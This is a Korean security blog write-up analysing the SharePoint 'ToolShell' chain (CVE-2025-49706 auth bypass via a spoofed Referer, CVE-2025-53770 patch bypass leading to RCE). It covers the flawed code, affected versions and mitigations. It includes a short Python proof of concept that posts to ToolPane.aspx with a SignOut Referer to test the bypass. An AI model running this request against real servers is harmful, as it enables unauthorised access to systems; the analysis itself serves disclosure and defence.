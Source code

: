 ```yaml
---
title: ["[CVE-2025-49706, 53770] - Microsoft SharePoint Auth Bypass and RCE"]
date: 2025-08-01 09:00:00 +0900
last_modified_at: 2025-07-07 09:00:00 +0900
categories: [writeup, CVE]
tags: [CVE, Microsoft SharepPoint, RCE, Authentication Bypass]
---
```


# SharePoint 인증 우회 및 RCE 취약점 분석

## 개요
Microsoft SharePoint Server 2019에서 발견된 CVE-2025-49706, CVE-2025-53770은 인증 우회 및 원격 코드 실행(RCE)로 이어질 수 있는 중대한 보안 취약점이다. 

## CVE-2025-49706: Auth Bypass via Referer
이 취약점은 SharePoint의 `PostAuthenticateRequestHandler` 메서드가 `Referer` 헤더에 포함된 `/layouts/SignOut.aspx` 값을 신뢰하는 설계 결함에서 비롯된다. 익명 사용자가 이 값을 설정해 인증이 필요한 페이지에 접근할 수 있게 된다.

### 인증 우회 동작 로직
```csharp
if (flag1) {
  Uri uri = context.Request.UrlReferer;
  ...
  if (uri != null && uri.AbsolutePath == "/_layouts/SignOut.aspx") {
    flag1 = false;
    flag2 = true;
  }
}
```
- `flag1`이 true이고 Referer가 SignOut이면 인증 체크가 우회된다.
- 이 결과, 로그인하지 않은 상태에서도 WebPart 설정 페이지인 `/ToolPane.aspx`에 접근 가능해진다.

### 영향을 받는 환경
- SharePoint Server Subscription Edition - earlier than KB5002768
- SharePoint Server 2019 - earlier than 16.0.10417.20027 / KB5002754
- SharePoint Server 2016
  
## CVE-2025-53770 : easily bypassable patch
Microsoft는 `DisableSignOutRefererHeaderBypassLimit` 설정 플래그와 `ToolPane.aspx` 엔드포인트 필터링을 통해 CVE-2025-49706을 차단하려 했지만, 문자열 비교에만 의존한 패치 방식은 완전히 우회 가능했다.
- `/ToolPane.aspx/`와 같이 마지막에 슬래시를 붙이면 우회된다.
- 결국 인증 우회 후 Deserialization 취약점을 통해 RCE로 이어질 수 있다.

## PoC
```python
import requests
from urllib.parse import urljoin
import argparse

parser = argparse.ArgumentParser()
parser.add_argument("--url", required=True, help="Target URL")
args = parser.parse_args()

session = requests.Session()
headers = {'Referer': '/_layouts/SignOut.aspx'}
data = {'MSOTlPn_Uri': '', 'MSOTlPn_DWP': ''}

endpoint = urljoin(args.url, '/_layouts/16/ToolPane.aspx?DisplayMode=Edit')
response = session.post(endpoint, headers=headers, data=data)

if response.status_code == 200:
    print("[+] Authentication Bypass Successed")
    print(response.text[:500])  
else:
    print("[-] Failed: ", response.status_code)
```

해당 PoC는 로그인 없이 `ToolPane.aspx`에 접근해 WebPart 처리를 유도하고, 요청 파라미터를 Deserialization하는 과정에서 RCE가 가능하다.

## 실제 위험성 및 공격 시나리오

CVE-2025-49706은 단독으로 사용될 수도 있지만, `ToolPane.aspx` 페이지가 요청 데이터를 Deserialization하는 과정에서 발생하는 CVE-2025-53770과 결합될 경우, RCE까지 이어질 수 있다. 실제로 두 취약점은 결합되어 "ToolShell"이라는 익스플로잇 체인으로 사용되었다.

1. 공격자는 Referer 헤더를 `/layouts/SignOut.aspx`로 설정하여 인증 우회(CVE-2025-49706)
2. 이후 `ToolPane.aspx`에 접근해 악의적인 데이터를 전송하여 원격 코드 실행(CVE-2025-53770)

이러한 공격이 성공하면 공격자는 웹쉘 설치, 내부 네트워크 침투 등 심각한 보안 위협을 가할 수 있다.

## 대응 방안
* Microsoft에서 발표한 보안 업데이트(KB5002754, KB5002768)를 적용
* `DisableSignOutRefererHeaderBypassLimit` 플래그를 활성화하여 Referer 헤더를 통한 인증 우회 방지 로직을 강화
* AMSI 활성화 및 Defender 등의 백신 솔루션을 SharePoint 서버에 적용
* 인증 토큰 탈취 방지를 위해 `MachineKey` 값을 변경하고 IIS를 재시작


## Reference
- [CVE-2025-49706 | Microsoft SharePoint Server Spoofing Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2025-49706)
- [SharePoint Vulnerabilities (CVE-2025-53770 & CVE-2025-53771): Everything You Need to Know](https://www.wiz.io/blog/sharepoint-vulnerabilities-cve-2025-53770-cve-2025-53771-everything-you-need-to-k)
- [ToolShell: a story of five vulnerabilities in Microsoft SharePoint](https://securelist.com/toolshell-explained/117045/)